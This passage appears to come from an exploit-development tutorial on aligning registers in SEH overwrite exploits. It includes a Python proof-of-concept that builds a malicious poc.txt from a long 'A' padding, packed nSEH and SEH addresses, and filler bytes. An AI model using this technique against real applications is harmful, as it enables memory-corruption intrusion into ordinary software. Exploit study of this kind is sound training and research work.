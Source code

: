 ## Results

![](/assets/img/Alignments/2.png)

# SEH Overwrites

As the Stack Overflows section has already been covered, it will now be proceeded to explain how alignments are performed within this scenario, which can be a little more complex, as the registers are not aligned by default.

In order to perform the experiment, the same application will be used.

Current poc:

```term
import struct 

nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x10031779)

buffer = "A" * 9008 + nseh + seh + "\x41\x49" * 5 + "\xff" * 200
f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```
